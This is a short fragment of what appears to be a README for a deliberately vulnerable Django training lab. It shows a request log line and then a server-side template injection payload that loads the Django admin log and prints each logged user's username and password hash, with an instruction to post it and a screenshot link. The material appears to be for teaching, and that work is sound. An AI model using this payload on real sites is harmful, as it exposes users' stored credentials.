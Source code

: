 ``` INFO "GET /a10_lab?username=Hacker&password=Hacker HTTP/1.1" 301 0 ```

**Server side Template Injection**

`{% load log %}
{% get_admin_log 5 as log %}
{% for e in log %}
    {{e.user.get_username}} : {{e.user.password}}
{% endfor %}`

add a post which includes this content
 
The result would look like this -->
![Screenshot from 2022-06-10 21-04-29](https://user-images.githubusercontent.com/75058161/173106213-9e218e81-d4b2-4447-9570-4aa8de3dea88.png)
